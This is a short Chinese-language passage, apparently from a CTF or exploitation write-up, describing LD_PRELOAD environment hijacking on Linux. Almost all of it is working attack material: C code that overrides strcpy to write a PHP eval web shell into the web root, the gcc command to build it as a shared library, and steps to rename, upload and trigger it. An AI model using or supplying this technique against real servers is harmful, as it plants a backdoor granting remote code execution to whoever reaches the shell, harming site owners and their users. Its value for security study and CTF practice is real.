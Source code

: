 ### 环境劫持

这里的 `LD_PRELOAD` 是 Linux 中的一个系统变量, 考虑进行劫持;

写马: 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("echo '<?php eval($_POST[shell]); ?>' > /var/www/html/shell.php");
}

char *strcpy (char *__restrict __dest, const char *__restrict __src) {
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译:

```bash
gcc -shared -fPIC shell.c -o shell.so 
```

改后缀上传, 然后查询:

![26-5.png](26-5.png)